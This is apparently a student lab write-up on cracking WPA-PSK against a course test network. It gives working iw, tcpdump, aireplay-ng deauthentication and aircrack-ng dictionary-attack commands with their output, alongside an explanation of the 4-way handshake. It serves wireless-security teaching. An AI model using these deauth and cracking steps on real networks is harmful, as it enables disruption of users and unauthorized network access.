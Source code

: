 # Question 2: Cracking WPA-PSK

## Terminology
* N6 = Node 6
* N15 = Node 15
* ST = Stepping Stone
* PC = local pc at home

## a) Getting the dump

Date of Capture: Tuesday, 10th January 2017, 19:50

### Setup

* N6: change monitor interface channel to CH1: `iw wlan1 set channel 1`
* N6: Scan For WPA Node: `iw wlan0 scan`

	Output: (trunc):
	
	```
	BSS 00:1b:b1:02:01:4e(on wlan0)
		TSF: 285225550977 usec (3d, 07:13:45)
		freq: 2412
		beacon interval: 100 TUs
		capability: ESS (0x0431)
		signal: -58.00 dBm
		last seen: 15760 ms ago
		Information elements from Probe Response frame:
		SSID: WirelessLab_WPA_Crack_Me
	```
	

* N6: check for monitor mode: `iw wlan1 info`
	Output:
	
	```
	Interface wlan1
	ifindex 6
	wdev 0x100000002
	addr a8:54:b2:71:d3:5d
	type monitor
	wiphy 1
	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
	txpower 19.00 dBm
	txpower 19.00 dBm
	```
	
	* in monitor mode: check!
	* on channel 1: check!


* PC: Start dump on remote N6 (node6) via ProxyJump on ST:

	`ssh node6 tcpdump -U -i wlan1 -w - | wireshark -k -i -`
	
	After capture save to file manually on PC.
	
We captured all traffic on Channel 1 to get an overview of the trace.
There were some EAPOL message exchanges but unfortunately only the first
two messages. In order to capture a full 4-Way-Handshake we provoked 
a deauthentification. To do so we looked again into the the trace to 
find already associated STA that we can deauth. In particular we were looking
for data packets and we found one with the MAC Address `00:1b:b1:02:01:39`.

* N6: Sending deauth frames:

	`aireplay-ng -0 1 -a 00:1b:b1:02:01:4e -c 00:1b:b1:02:01:39 wlan1`
	
	Output (trunc):
	
	```
	Waiting for beacon frame (BSSID: 00:1B:B1:02:01:4E) on channel 1
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 0|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 0|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 1|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 1|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 3|
	``` 

	
	

### Analysing the Beacons

Screenshot of Wireshark showing an Beacon frame from the WPA AP:

![](q2/BeaconFrame.png)

There are three different types of communications requiring a cipher suite:

* Multicast Cipher Suite: AES (CCM) is offered here
* Unicast Cipher Suite: AES (CCM) is offered here
* Auth Key Management: PSK is offered here

### Analysing the Authentification Process

Screenshot of Wireshark showing the management frames used to authenticate and associate:

![](q2/ManagementFrames.png)

First an Authentification frame is sent from the STA to the AP.
If the AP accepts the request it send another Authentificaton frame 
back to the STA with a status code of "0".

The STA then sends an Association Request to the AP, which the AP replies
with an Association Response

### Analysing the 4-Way Handshake

Screenshot of Wireshark showing many 802.1X-2004 handshake messages:

![](q2/4-way-handshake.png)

In this trace we have a full 4-way handshake with other handshake fractals caused by the deauth burst. The handshake is transported over EAPOL-key frames.
More Information: 802.11i Standard

The security policies are obtained from the APs beacons or probes.

Initially both AP and STA have the same PMK (Pairwise Master Key)

* Message 1:

	The authentificator (AP) sends a random number known as ANONCE 
	to the client
	
	supplicant (STA) has now all information to compute the PTK 
	(Pairwise Transient Key) with a pseudo-random function (PRF)
	
* Message 2:

	The supplicant sends the SNONCE together with the MIC (Message Integrity Code),
	since it already has the PTK
	
	The authentificator can now compute the PTK and check its integrity with the MIC
	
* Message 3:

	If neccessary the authentificator generates a GTK (Group Transient Key) for 
	multicast frames and sends it encrypted with the PTK
	
* Message 4:

	The supplicant sends an acknowledgement frame to the authentificator that
	GTK is installed

This approach is immune against replay attacks because the session is encrypted
by the PTK, which itself is never communicated over the channel nor all information
that can compute the PTK.

## b) Cracking WPA PSK

Using aircrack-ng we have to provide a passwordlist. aircrack uses all the words
in that list and tries each one out to find the WPA Key. We know from the task that the WPA key is an english word in all lowercase letters. So we use a dictionary file found in the internet (`english3.txt`)

Source: [http://www.gwicks.net/textlists/english3.zip](http://www.gwicks.net/textlists/english3.zip)

PC: `aircrack-ng -w english3.txt -b 00:1B:B1:02:01:4E handshake.pcap`

* -w = argument is the wordlist
* -b = argument is bssid of the AP (Authentificator)
* handshake.pcap = the trace file which contains the handshake

Output: 

```
                   [00:01:05] 130412 keys tested (2068.59 k/s)


                           KEY FOUND! [ xylophone ]


      Master Key     : D8 88 C1 D4 A6 1B 2F 7F F0 CF E3 6A 22 39 A3 34
                       06 05 6F 8A 9D F1 3D 22 9E CC E6 5F FF 2B 94 07

      Transient Key  : E7 BC 72 BD 44 E0 1F 5F 71 88 A4 A4 E8 52 E5 EC
                       98 CD 35 BE 4E 54 68 FA 30 73 F8 4E AB 2C E7 2C
                       FC 15 D6 0F CF A1 E1 28 4B 47 E9 14 AC EB 1A 8F
                       9D DA 8A 0A 4A C8 A5 BD 27 F1 B6 85 BF 12 61 37

      EAPOL HMAC     : 9B A6 EE E7 3E 80 8D 73 86 FF 93 8E A9 81 A1 36
```


As we see here we found the key which is `xylophone`

It is important to capture the 4-way handshake to get all information to
calculate the PTK for a given dictionary entry in order to check it against
the MIC.

